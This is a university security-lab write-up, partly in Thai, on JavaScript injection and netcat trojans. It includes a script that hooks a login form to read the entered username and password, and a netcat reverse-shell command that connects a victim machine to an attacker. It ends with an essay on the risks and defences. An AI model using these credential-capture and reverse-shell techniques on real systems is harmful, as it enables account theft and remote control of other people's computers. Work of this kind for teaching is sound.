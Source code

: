 # Activity III: Log Analysis <!-- omit in toc -->

By Saenyakorn Siangsanoh 6232035721

# Table of Contents <!-- omit in toc -->

- [Exercise I](#exercise-i)
  - [Answer](#answer)
- [Exercise II](#exercise-ii)
  - [Answer](#answer-1)
- [Exercise III](#exercise-iii)
  - [Answer I](#answer-i)
  - [Answer II](#answer-ii)

# Exercise I

Javascript Injection. Your friend has just logged out of ChulaSSO
(https://account.it.chula.ac.th/) before leaving his/her computer. You have 2-3 minutes to inject a script to his/her browser so that you can steal his/her username (ChulaId) and password.

For this class, please inject a javascript so that once your friend login (clicks the login button), it will pop up his/her username/password.

## Answer

อันดับแรกเปิด Javascript Console ขึ้นมาก่อน (หรือกด `F12`) หลังจากนั้นทำการ inject javascript เข้าไปดังนี้

```js
document.getElementById('loginForm').addEventListener('submit', () => {
  const user = document.getElementById('username').value
  const password = document.getElementsByName('password')[0].value
  alert('username: ' + user + '\npassword: ' + password)
})
```

หลังจากนั้นเมื่อเพื่อนกรอกข้อมูลลงไปใน Login Form จะมี Alert dialog ปรากฏขึ้นมาดังนี้

![](./assets/ex1.png)

# Exercise II

We will mimic an attack used by several worms for placing a trojan horse into
your computer. Please note that it is for demonstration purposes only. Please do not abuse it.

This attack is partly taken from the MSSQL SLAMMER worm that was spread in 2006.

Please install netcat.

- Mac - use homebrew (https://brew.sh/). brew install netcat
- Windows - use cygwin or download prebuilt binary (https://joncraton.org/blog/46/netcat-for-windows/)
- Linux - you may install netcat from your package distribution.
- (On Debian-based Linux, use `apt install netcat-traditional`)

Make a group of two persons. One is a victim. Another is an attacker. Please connect to the same network/WIFI access point. You may share a hotspot from your mobile phone. (Don’t use ChulaWIFI for this.) You may have to turn off your firewall to do this experiment.

First, the attacker will start netcat in listen mode.
`nc -p 60000 -l`

Once you get a change to the victim’s machine, send a remote shell back to the
hacker.

`nc -e [/bin/bash or cmd.exe on Windows] [IP of Hacker] 60000`

You may change the port 60000 to any port that you want.

## Answer

พวกเราได้ลองทำตาม instruction ที่กำหนดไว้ ซึ่งได้ผลลัพธ์ดังนี้

Hacker

![](./assets/ex2_1.png)

Victim

![](./assets/ex2_2.png)

จะสังเกตว่า Hacker สามารถทำอะไรก็ได้กับเหยื่อ แต่ยกเว้นคำสั่ง sudo ซึ่งต้องให้ Victim เป็นคน grant ให้ก่อน

# Exercise III

Write an essay to summarize the lesson that you have learned in this activity. In particular,

1. Explain the worst case scenario that can happen if you leave your computer unattendant.

## Answer I

Hacker จะสามารถ phishing แอบหลอกเอารหัวเราได้ด้วยหลากหลายวิธี ซึ่งอาจจะทำให้ account บางอย่างของเราโดนขโมยไปได้ (โดยเฉพาะ account เกี่ยวกับการเงิน) นอกจากนี้ hacker ยังสามารถ download โปรแกรมบางอย่างเข้าเครื่องของเหยื่อได้โดยที่เหยื่อไม่รู้ตัว ซึ่งก็จะเป็นการเแิดทางให้ Hacker ทำอะไรหลาย ๆ อย่างกับเครื่องเหยื่อได้มากขึ้น

2. Explain how a tool like netcat can be used for constructing a trojan horse. As a user, how will you prevent yourself from being a victim to such attacks?

## Answer II

เนื่องจากเครื่องมืออย่าง `netcat` สามารถให้ Hacker รันคำสั่งอะไรก็ได้ (ยกเว้น sudo) ในเครื่องเหยื่อซึ่ง hacker อาจจะพยายาม install software / program บางอย่างที่มีลักษณะเป็น trojan horse มาไว้ในเครื่องเหยื่อโโยที่เหยื่อไม่รู้ตัว ทำให้เหยื่อได้รับความเสียหายได้

วิธีการป้องกันจากเรื่องนี้คือพยายาม shutdown / restart คอมพิวเตอร์อยู่บ่อยครั้ง และพยายามตรวจสอบ process ต่าง ๆ ใน computer ว่ามี process ใดแปลก ๆ หรือเปล่า รวมถึงตรวจสอบ command history ว่าระหว่างที่เราไม่อยู่มีการรัน command อะไรแปลก ๆ หรือเปล่า
